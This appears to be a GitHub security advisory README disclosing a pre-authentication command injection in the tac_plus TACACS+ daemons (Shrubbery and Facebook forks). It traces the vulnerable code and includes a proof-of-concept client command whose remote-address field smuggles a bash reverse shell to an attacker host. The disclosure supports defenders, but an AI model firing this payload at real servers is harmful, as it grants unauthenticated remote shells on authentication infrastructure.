 # tac_plus Pre-Auth Remote Command Execution Vulnerability

This repository contains information about a pre-auth remote command execution vulnerability in different open-source implementations of `tac_plus`. The following two forks are affected:

- [Shrubbery Networks tac_plus](https://shrubbery.net/tac_plus/)
- [Facebook tac_plus](https://github.com/facebook/tac_plus)

However, both forks are based on a Cisco dev kit for TACACS+ that was open-sources over *16 years* ago. The vulnerability already existed in the dev kit and was forked into both projects. It should be noted that this research only focused on the two forks mentioned above, there might be additional forks that are affected as well.

The following graph shows the relation between the forks, all are affected:

```bash
-----------------
| Cisco dev kit |
-----------------
       ↑
  forked from
       |
----------------------
| Shrubbery Networks |
|   CVE-2023-48643   |
----------------------
       ↑
  forked from
       |
------------------
|    Facebook    |
| CVE-2023-45239 |
------------------

```

No official source for Cisco's dev kit has been found and it is not maintained anymore.

## Status

- Facebook published a [GitHub Security Advisory (GHSA)](https://github.com/facebook/tac_plus/security/advisories/GHSA-p334-5r3g-4vx3), assigned [CVE-2023-45239](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-45239)
- No patch for Shrubbery Networks' fork is available


## Vulnerability

The following example references code in the [facebook/tac_plus](https://github.com/facebook/tac_plus) repository because it is available on GitHub (the Cisco dev kit and Shrubbery Networks fork are just tarballs). However, the affected code is **the same in all projects**.

When a packet arrives, the [start_session()](https://github.com/facebook/tac_plus/tree/8d17ddc8c7c5c7682504ffdcacdb448c41f2ea03/tacacs-F4.0.4.28/tac_plus.c#L833) function will be called to determine the type of the incoming packet (authentication, authorization, or accounting). We focus on authorization packets that are handled by [author()](https://github.com/facebook/tac_plus/tree/8d17ddc8c7c5c7682504ffdcacdb448c41f2ea03/tacacs-F4.0.4.28/author.c#L29) → [do_author()](https://github.com/facebook/tac_plus/tree/8d17ddc8c7c5c7682504ffdcacdb448c41f2ea03/tacacs-F4.0.4.28/do_author.c#L52), which then calls [pre_authorization()](https://github.com/facebook/tac_plus/tree/8d17ddc8c7c5c7682504ffdcacdb448c41f2ea03/tacacs-F4.0.4.28/do_author.c#L208). This function checks if the username in the TACACAS+ packet has a *before authorization* command configured and executes it via [call_pre_process()](https://github.com/facebook/tac_plus/tree/8d17ddc8c7c5c7682504ffdcacdb448c41f2ea03/tacacs-F4.0.4.28/programs.c#L436). The following configuration file (`tac_plus.conf`) shows a user with a *before authorization* command configured:

```
accounting file = /tmp/tac_acc.log

user=DEFAULT {
 before authorization "/usr/local/sbin/tac_policy -- '$user' '$name' '$address'"
  service = exec {
    default attribute = permit
  }
}
```

This function takes the command configured in *before authorization* and [substitutes](https://github.com/facebook/tac_plus/tree/8d17ddc8c7c5c7682504ffdcacdb448c41f2ea03/tacacs-F4.0.4.28/programs.c#L124) variables (e.g. *$user*, *$name*, or *$address*) with values from the incoming TACACAS+ packet. However, this is done without any input validation or sanitization.

The resulting command string will then be passed to [my_popen()](https://github.com/facebook/tac_plus/tree/8d17ddc8c7c5c7682504ffdcacdb448c41f2ea03/tacacs-F4.0.4.28/programs.c#L279) which executes the command string in the following [execl()](https://github.com/facebook/tac_plus/tree/8d17ddc8c7c5c7682504ffdcacdb448c41f2ea03/tacacs-F4.0.4.28/programs.c#L342) call:

```c
(void) execl("/bin/sh", "sh", "-c", cmd, (char *) NULL);
```

This allows injection of additional commands via the remote address field in TACACS+ packets (see *rem_addr*, *rem_addr_len* in [RFC8907](https://datatracker.ietf.org/doc/html/rfc8907#section-6.1)). The same potentially works for other input fields as well.

It should be noted that the vulnerability is triggered during the authentication process. Therefore, no password is required, only a username that exists in the configuration!

### Trigger the Vulnerability

Compiling and running tac_plus with this config is described in the following sections:

- [Shrubbery Network tac_plus setup](Shrubbery.md#Setup)
- [Facebook tac_plus setup](Facebook.md#Setup)

The following command runs the [tacacs_client](https://github.com/ansible/tacacs_plus) on the target daemon with the user DEFAULT. The payload that triggers the vulnerability is in the remote address field, which is set via the `--rem-addr` command line argument:

```bash
export TACACS_PLUS_KEY=[REDACTED] # only required for setups with a pre-shared keys
tacacs_client \
    --host 192.168.1.100 \
    --port 4949 \
    --username DEFAULT \
    --rem-addr "asd';bash -i >& /dev/tcp/192.168.1.18/1337 0>&1 #" \
    authorize -c service=exec
```

Executing this will result in a reverse shell connection to 192.168.1.18:1337. The username has to be one of the users that has a *before authorization* or *after authorization* directive configured in `tac_plus.cfg`. The trailing command list (`-c service=exec`) is required to hit the required code path, but the value does not matter.

The TACACS+ packet sent by the client is shown in the following screenshot in Wireshark:

![Wireshark Setup](imgs/wireshark_setup.png)

The following screenshot shows a debug session right before the injected command is executed:

![VScode Debug](imgs/vscode_debug.png)

## Affected Linux Distributions/BSD Derivates

Various Linux distributions use one of the two affected forks in their official packages (mostly the Shrubbery Networks fork). The following tables show Linux distributions and BSD derivates that use either the Shrubbery Networks or Facebook fork at the time of this writing. The list is non-exhaustive, other distributions/derivates are most likely affected as well.

| Distribution | Package | Fork |
---------------|---------|------|
| Fedora | tacacs | Facebook |
| Ubuntu | tacacs+ | Shrubbery Networks |
| OpenSUSE | tac_plus | Shrubbery Networks |
| Debian | tacacs+ | Shrubbery Networks |
| Arch Linux (AUR) | tacacs-plus | Shrubbery Networks |
| ... | | |

| Derivate | Port | Fork |
|----------|------|------|
| FreeBSD | tacacs | Shrubbery Networks |
| NetBSD | tacacs | Shrubbery Networks |
| ... | | |

Examples of how to reproduce this issue are available in the following sections:

- [Shrubbery Networks tac_plus examples](Shrubbery.md#Examples)
- [Facebook tac_plus examples](Facebook.md#Examples)
